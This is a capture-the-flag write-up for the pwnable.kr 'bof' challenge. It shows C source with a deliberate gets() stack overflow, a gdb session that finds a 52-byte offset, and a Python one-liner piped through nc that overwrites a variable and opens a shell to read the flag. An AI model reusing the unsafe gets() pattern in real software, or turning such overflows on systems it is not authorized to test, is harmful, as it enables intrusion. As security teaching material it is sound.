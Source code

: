 # Bof

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);	// smash me!
    if(key == 0xcafebabe){
        system("/bin/sh");
    }else{
      printf("Nah..\n");
    }
}

int main(int argc, char* argv[]){
    func(0xdeadbeef);
    return 0;
}
```

This is a very simple buffer overflow.

We have to figure out the address of our buffer and the address of the value we wish to change, then take the difference to figure out how many bytes of offset we need to input before the main payload, `\xbe\xba\xfe\xca`.

```bash
$ gdb bof
>>> disas main
Dump of assembler code for function main:
   0x5655568a <+0>:	push   ebp
   0x5655568b <+1>:	mov    ebp,esp
   0x5655568d <+3>:	and    esp,0xfffffff0
   0x56555690 <+6>:	sub    esp,0x10
   0x56555693 <+9>:	mov    DWORD PTR [esp],0xdeadbeef
   0x5655569a <+16>:	call   0x5655562c <func>
   0x5655569f <+21>:	mov    eax,0x0
   0x565556a4 <+26>:	leave  
   0x565556a5 <+27>:	ret    
End of assembler dump.
>>> b *0x5655569a
Breakpoint 1 at 0x5655569a
>>> r
Breakpoint 1, 0x5655569a in main ()
>>> p $esp
$1 = (void *) 0xffffcd10
>>> disas func
Dump of assembler code for function func:
   0x5655562c <+0>:	push   ebp
   0x5655562d <+1>:	mov    ebp,esp
   0x5655562f <+3>:	sub    esp,0x48
   0x56555632 <+6>:	mov    eax,gs:0x14
   0x56555638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:	xor    eax,eax
   0x5655563d <+17>:	mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:	call   0xf7e2e5d0 <puts>
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e2dcf0 <gets>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:	jne    0x5655566b <func+63>
   0x5655565d <+49>:	mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:	call   0xf7e08f40 <system>
   0x56555669 <+61>:	jmp    0x56555677 <func+75>
   0x5655566b <+63>:	mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:	call   0xf7e2e5d0 <puts>
   0x56555677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:	je     0x56555688 <func+92>
   0x56555683 <+87>:	call   0xf7ec7ac0 <__stack_chk_fail>
   0x56555688 <+92>:	leave  
   0x56555689 <+93>:	ret    
End of assembler dump.
>>> b *0x5655564f
Breakpoint 2 at 0x5655564f
>>> c
Breakpoint 2, 0x5655564f in func ()
>>> p/x $eax
$2 = 0xffffccdc
```

These addresses, `0xffffcd10` and `0xffffccdc`, are 52 bytes apart. Let's test it:

`$ python -c "print('.'*52+'\xbe\xba\xfe\xca')" | nc pwnable.kr 9000`

We did not get a `Nah..` message, which means it probably worked, but our pipe closed `stdin` before we could input anything to the shell. Let's keep it open and get our flag:

```bash
$ (python -c "print('.'*52+'\xbe\xba\xfe\xca')"; cat -) | nc pwnable.kr 9000`
/bin/cat flag
```
